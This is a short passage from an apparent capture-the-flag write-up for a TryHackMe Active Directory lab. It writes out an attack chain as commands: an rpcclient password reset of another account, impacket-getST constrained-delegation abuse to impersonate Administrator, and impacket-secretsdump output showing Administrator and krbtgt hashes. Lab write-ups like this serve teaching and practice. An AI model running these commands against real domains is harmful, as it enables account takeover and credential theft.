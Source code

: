 ```
rpcclient -U THM/CRUZ_HALL 10.10.184.120
> Password123!

setuserinfo2 DARLA_WINTERS 23 'Password123!'
```





### AllowedToDelegate to impersonate administrator

<figure><img src="../../../.gitbook/assets/image (329).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
impacket-getST -k -impersonate Administrator -spn cifs/HAYSTACK.THM.CORP THM.CORP/DARLA_WINTERS
```
{% endcode %}

With this ticket we can dump credentials or establish a shell with PsExec oe WMIexec

## Dump credentials with Impacket

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">impacket-secretsdump -no-pass -k -dc-ip 10.10.184.120 THM/administrator@HayStack.thm.corp

# output
<strong>[..snip..]
</strong>Administrator:500:aad3b435b51404eeaad3b435b51404ee:ab4f5a5c42df5a0ee337d12ce77332f5:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:067a84e5afaed843ed4a8fdac5facac3:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ce852eb247bbe2e5818cd8d66ed19ec5:::
krbtgt:aes256-cts-hmac-sha1-96:bed293d4c6efc6bb4fe48d9ff908044d99dd5c04768d76d25cb7743c3689f269
[..snip..]
</code></pre>
